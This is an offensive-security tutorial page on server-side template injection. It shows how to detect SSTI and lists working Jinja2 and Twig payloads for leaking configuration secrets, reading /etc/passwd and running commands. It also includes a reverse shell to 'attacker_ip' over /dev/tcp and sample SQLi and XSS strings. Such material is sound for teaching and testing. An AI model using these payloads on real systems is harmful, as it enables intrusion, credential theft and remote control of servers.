 # 👀 SSTI

Server-Side Template Injection (SSTI) is a critical vulnerability where an attacker can inject template code into a web application’s template engine, causing it to be executed server-side. This can lead to severe security issues, including **information disclosure**, **remote code execution (RCE)**, and **local file inclusion (LFI)**.

***

### **1. Context and Overview**

#### What Is SSTI?

A **template engine** is responsible for rendering dynamic content by merging templates (pre-defined HTML) with user input or data from a database. Common examples include **Jinja2** for Python (used in Flask/Django), **Twig** for PHP, and **Velocity** for Java-based applications. These engines allow dynamic content to be generated based on user inputs or system data.

**SSTI** occurs when the application **fails to sanitize** user input properly, allowing an attacker to inject malicious template syntax. This can result in various attacks, such as reading sensitive files, executing arbitrary code, or even compromising the entire server.

***

### **2. Identifying SSTI Vulnerabilities**

Identifying SSTI vulnerabilities is similar to detecting **SQL injection** or **Cross-Site Scripting (XSS)**. The goal is to inject special characters or expressions that the template engine will try to evaluate.

#### **Common Injection Syntax for Template Engines:**

* **Jinja2 (Python)**: `{{ ... }}`
* **Twig (PHP)**: `{{ ... }}`
* **Velocity (Java)**: `${ ... }`

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><a href="https://portswigger.net/web-security/server-side-template-injection"><strong>https://portswigger.net/web-security/server-side-template-injection</strong></a></p></figcaption></figure>

#### **Testing for SSTI:**

Look for places where user input is incorporated into templates. The most common input fields to test include:

* **Form Inputs** (e.g., search bars, login forms)
* **URL Parameters** (e.g., `?name={{ user_name }}`)
* **HTTP Headers** (e.g., custom headers, cookies)
* **File Uploads** (e.g., image metadata or document-based templates)

#### **Burp Suite Example:**

Let’s start with an example using **Burp Suite** to intercept and manipulate HTTP requests.

**Request:**

Imagine we’re testing a login form that takes a `username` parameter and outputs a personalized greeting:

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

username=vautia&password=testpassword
```

**Injection:**

Inject the following SSTI payload in the `username` parameter to test for template processing:

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

username={{7*7}}&password=testpassword
```

**Response:**

After sending the request, the server responds with the following:

```html
Hello 49! Welcome to the site.
```

This reveals that the application is processing the input as a template expression, indicating an **SSTI vulnerability**.

***

### **3. Exploiting SSTI: Common Scenarios**

Once SSTI is identified, attackers can leverage various techniques to exploit the vulnerability.

#### **Scenario 1: Information Disclosure**

An attacker can use SSTI to expose internal application configurations or secrets, such as database credentials, environment variables, or API keys.

**Example Payload (Jinja2):**

```plaintext
{{ config.items() }}
```

**Response:**

```plaintext
[('DEBUG', True), ('SECRET_KEY', 'randomkey1234'), ('SQLALCHEMY_DATABASE_URI', 'mysql://user:password@localhost/db')]
```

This reveals sensitive configuration data.

***

#### **Scenario 2: Local File Inclusion (LFI)**

SSTI can be leveraged to read sensitive files, such as `/etc/passwd` on Linux systems or application logs, if the template engine has access to the filesystem.

**Example Payload (Jinja2):**

```plaintext
{{ self.__init__.__globals__.__builtins__.open('/etc/passwd').read() }}
```

**Response:**

```plaintext
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

This exposes the contents of `/etc/passwd`, potentially revealing user accounts and system information.

**Example Payload (Twig):**

```plaintext
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

**Response:**

```plaintext
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

***

#### **Scenario 3: Remote Code Execution (RCE)**

The most severe impact of SSTI is remote code execution. This allows attackers to run arbitrary commands on the server, potentially compromising the entire system.

**Example Payload (Jinja2):**

Executing the `id` command to get the user context:

```plaintext
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

**Response:**

```plaintext
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This confirms that the attacker can execute commands on the server.

**Example Payload (Twig):**

In **Twig**, you can use the `filter('system')` function to execute arbitrary system commands:

```plaintext
{{ ['id'] | filter('system') }}
```

**Response:**

```plaintext
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Advanced Remote Code Execution (RCE):**

Attackers can escalate RCE to more dangerous payloads, such as reverse shells or data exfiltration.

**Reverse Shell Example (Jinja2):**

```plaintext
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -i >& /dev/tcp/attacker_ip/4444 0>&1').read() }}
```

This command attempts to open a reverse shell back to the attacker's machine at IP `attacker_ip` on port `4444`.

***

### **4. Advanced Payloads and Complex Exploitation**

#### **Chaining SSTI with Other Vulnerabilities**

In some cases, SSTI can be chained with other vulnerabilities, like **SQL Injection (SQLi)** or **Command Injection**, to achieve greater control over the application.

**SSTI + SQL Injection (SQLi):**

Imagine an application that uses template injection to build SQL queries. If the application is also vulnerable to **SQL injection**, an attacker can combine both vulnerabilities to extract sensitive data.

```plaintext
{{ config['SECRET_KEY'] }}' OR 1=1 --
```

This could reveal the secret key while bypassing login authentication by exploiting the SQLi part.

**SSTI + XSS:**

An attacker can inject **Cross-Site Scripting (XSS)** payloads into the template, which can then be executed in other users' browsers.

```plaintext
{{ "<script>alert('XSS')</script>" }}
```

This injects malicious JavaScript into the page, which gets executed when another user visits the site.
